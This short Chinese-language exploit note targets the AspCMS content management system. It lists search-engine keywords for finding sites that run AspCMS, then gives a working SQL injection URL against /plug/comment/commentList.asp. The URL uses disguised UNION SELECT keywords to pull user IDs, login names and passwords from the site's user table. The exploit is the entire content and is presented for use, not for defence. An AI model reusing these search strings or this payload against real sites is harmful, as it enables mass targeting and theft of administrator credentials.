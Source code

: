 关键字:
powered by aspcms com copyright 2010 2011
Powered by aspcms.com Copyright ?2010-2011
powered by aspcms 
Powered by www.aspcms.com Copyright ?2010-2013
powered by aspcms com admin
Powered by www.aspcms.com Copyright ?2010-2013
intitle:Powered by AspCms2

path:
/plug/comment/commentList.asp?id=0%20unmasterion%20semasterlect%20top%201%20UserID,GroupID,LoginName,Password,now%28%29,null,1%20%20frmasterom%20{prefix}user
